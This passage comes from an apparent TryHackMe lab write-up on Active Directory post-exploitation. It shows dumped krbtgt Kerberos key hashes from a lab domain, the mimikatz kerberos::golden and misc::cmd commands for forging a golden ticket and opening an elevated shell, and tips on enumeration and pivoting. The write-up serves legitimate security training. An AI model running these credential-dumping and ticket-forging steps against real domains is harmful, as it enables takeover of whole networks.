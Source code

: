 ```
  * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4
```

![](2025-05-31-post-exploitation-basics-22.png)

Take note of what is outlined in red you’ll need it to create the golden ticket

### Create a Golden Ticket

﻿1.) `kerberos::golden /user: /domain: /sid: /krbtgt: /id:`

![](2025-05-31-post-exploitation-basics-23.png)

Use the Golden Ticket to access other machine -

2.) `misc::cmd` - This will open a new command prompt with elevated privileges to all machines

![](2025-05-31-post-exploitation-basics-24.png)

![](2025-05-31-post-exploitation-basics-25.png)

3.) Access other Machines! - You will now have another command prompt with access to all other machines on the network

![](2025-05-31-post-exploitation-basics-26.png)

![](2025-05-31-post-exploitation-basics-27.png)

Unfortunately because tryhackme does not currently support networks you will be unable to access other machines however I encourage you to add other machines to this domain controller yourself and try out these attacks.

## Enumeration w/ Server Manager

Because servers are hardly ever logged on unless its for maintenance this gives you an easy way for enumeration only using the built in windows features such as the server manager. If you already have domain admin you have a lot of access to the server manager in order to change trusts, add or remove users, look at groups, this can be an entry point to find other users with other sensitive information on their machines or find other users on the domain network with access to other networks in order to pivot to another network and continue your testing.
